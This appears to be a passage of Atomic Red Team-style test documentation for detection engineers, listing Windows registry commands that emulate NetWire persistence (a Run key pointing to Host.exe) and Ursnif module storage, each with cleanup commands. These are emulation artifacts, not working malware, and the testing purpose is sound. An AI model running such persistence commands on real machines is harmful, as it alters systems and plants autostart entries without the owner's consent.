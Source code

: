 **Supported Platforms:** Windows


**auto_generated_guid:** 65704cd4-6e36-4b90-b6c1-dc29a82c8e56






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v NetWire /t REG_SZ  /d "C:\Users\admin\AppData\Roaming\Install\Host.exe" /f
reg add HKCU\SOFTWARE\NetWire /v HostId /t REG_SZ /d HostId-kai6Ci /f
reg add HKCU\SOFTWARE\NetWire /v "Install Date" /t REG_SZ /d "2021-08-30 07:17:27" /f
```

#### Cleanup Commands:
```cmd
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v NetWire /f >nul 2>&1
reg delete HKCU\SOFTWARE\NetWire /va /f >nul 2>&1
reg delete HKCU\SOFTWARE\NetWire /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #40 - Ursnif Malware Registry Key Creation
Ursnif downloads additional modules from the C&C server and saves these in the registry folder HKEY_CURRENT_USER\Software\AppDataLow\Software\Microsoft\
More information - https://blog.trendmicro.com/trendlabs-security-intelligence/phishing-campaign-uses-hijacked-emails-to-deliver-ursnif-by-replying-to-ongoing-threads/

**Supported Platforms:** Windows


**auto_generated_guid:** c375558d-7c25-45e9-bd64-7b23a97c1db0






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add HKCU\Software\AppDataLow\Software\Microsoft\3A861D62-51E0-15700F2219A4 /v comsxRes /t REG_BINARY  /d 72656463616e617279 /f
```

#### Cleanup Commands:
```cmd
reg delete HKCU\Software\AppDataLow\Software\Microsoft\3A861D62-51E0-15700F2219A4 /va /f >nul 2>&1
reg delete HKCU\Software\AppDataLow\Software\Microsoft\3A861D62-51E0-15700F2219A4 /f >nul 2>&1
```

